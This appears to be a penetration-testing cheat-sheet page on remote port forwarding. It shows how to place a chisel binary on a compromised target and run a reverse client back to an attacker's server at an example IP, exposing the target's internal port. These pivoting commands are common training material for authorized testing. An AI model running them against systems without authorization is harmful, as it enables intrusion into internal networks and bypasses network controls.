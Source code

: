 # Remote Port Forwarding

> Forward a locally available port to a remote port.

## Forward a Remote Target's Local Port to a Port of the Local Attacker

Requires command execution access to the target.

Download the appropriate binaries of [`chisel`](https://github.com/jpillora/chisel/releases) for both the attacker and the target machine. Transfer a binary to the target machine.

Start the `chisel` server on the attacker's machine:

```bash
./chisel server --port $PORT_TO_SERVE_CHISEL_ON --reverse
```

Initiate the port forward from the target's machine using the `chisel` client:

```bash
./chisel client $HOSTNAME_OR_ADDRESS_OF_CHISEL_SERVER:$PORT_OF_CHISEL_SERVER R:$TARGET_LOCAL_PORT_TO_FORWARD:localhost:$ATTACKER_LOCAL_PORT_TO_CONNECT_TO
```

### Example

If you wanted to forward the target's `localhost:8001` to the attacker's port 8002, you would start by serving `chisel` on an arbitrary port on the attacker's machine. The attacker's IP address is 192.168.1.100.

```bash
./chisel server --port 8000 --reverse
```

On the target machine:

```bash
./chisel client 192.168.1.100:8000 R:8001:localhost:8002
```

To access the target's `localhost:8001`, connect to the attacker's `localhost:8002`.

## Theory

![[remote-port-forwarding-1.png]]

![[remote-port-forwarding-2.png]]
